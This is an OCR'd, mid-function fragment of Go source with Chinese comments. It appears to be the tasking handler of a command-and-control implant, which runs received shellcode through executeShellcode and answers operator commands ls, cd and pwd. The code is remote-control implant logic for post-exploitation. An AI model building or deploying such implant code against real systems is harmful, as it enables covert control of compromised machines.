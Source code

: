 ```
		// 调用 executeShellcode 函数执行 shellcode，结果存储在 e 中
		e = a.executeShellcode(s) // Execution method determined in function

		// 如果 e 不为空，将错误信息存储在 c.Stderr 中
		if e != nil {
			c.Stderr = fmt.Sprintf("there was an error with the shellcode module:\r\n%s", e.Error())
		} else {
			// 否则将执行成功信息存储在 c.Stdout 中
			c.Stdout = "Shellcode module executed without errors"
		}
	case "NativeCmd":
		// 将 m.Payload 转换为 messages.NativeCmd 类型，并赋值给 p
		p := m.Payload.(messages.NativeCmd)
		// 将 p.Job 赋值给 c.Job
		c.Job = p.Job
		// 根据 p.Command 的值进行不同的操作
		switch p.Command {
		case "ls":
			// 调用 list 函数执行 ls 命令，结果存储在 listing 中
			listing, err := a.list(p.Args)
			// 如果有错误，将错误信息存储在 c.Stderr 中
			if err != nil {
				c.Stderr = fmt.Sprintf("there was an error executing the 'ls' command:\r\n%s", err.Error())
				break
			}
			// 否则将执行结果存储在 c.Stdout 中
			c.Stdout = listing
		case "cd":
// 尝试改变当前工作目录为参数指定的目录
err := os.Chdir(p.Args)
if err != nil {
    // 如果出错，将错误信息存入标准错误输出
    c.Stderr = fmt.Sprintf("there was an error changing directories when executing the 'cd' command:\r\n%s", err.Error())
} else {
    // 如果成功，获取当前工作目录
    path, pathErr := os.Getwd()
    if pathErr != nil {
        // 如果获取当前工作目录出错，将错误信息存入标准错误输出
        c.Stderr = fmt.Sprintf("there was an error getting the working directory when executing the 'cd' command:\r\n%s", pathErr.Error())
    } else {
        // 如果成功获取当前工作目录，将信息存入标准输出
        c.Stdout = fmt.Sprintf("Changed working directory to %s", path)
    }
}
// 如果命令是"pwd"
case "pwd":
    // 获取当前工作目录
    dir, err := os.Getwd()
    if err != nil {
        // 如果出错，将错误信息存入标准错误输出
        c.Stderr = fmt.Sprintf("there was an error getting the working directory when executing the 'pwd' command:\r\n%s", err.Error())
    } else {
        // 如果成功，将当前工作目录信息存入标准输出
        c.Stdout = fmt.Sprintf("Current working directory: %s", dir)
    }
// 如果命令不是"cd"或"pwd"
default:
    // 将错误信息存入标准错误输出
```
